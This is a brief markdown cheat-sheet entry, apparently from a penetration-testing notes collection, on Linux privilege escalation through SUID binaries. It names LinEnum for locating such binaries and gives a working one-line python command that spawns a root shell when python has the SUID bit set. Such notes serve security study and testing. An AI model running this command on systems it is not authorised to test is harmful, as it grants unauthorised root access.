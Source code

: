 # SUID

To escalate privileges you need a binary with SUID-bit set.
Find this with [LinEnum](linenum.md).

If it's `python`, run following to become root:

    python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
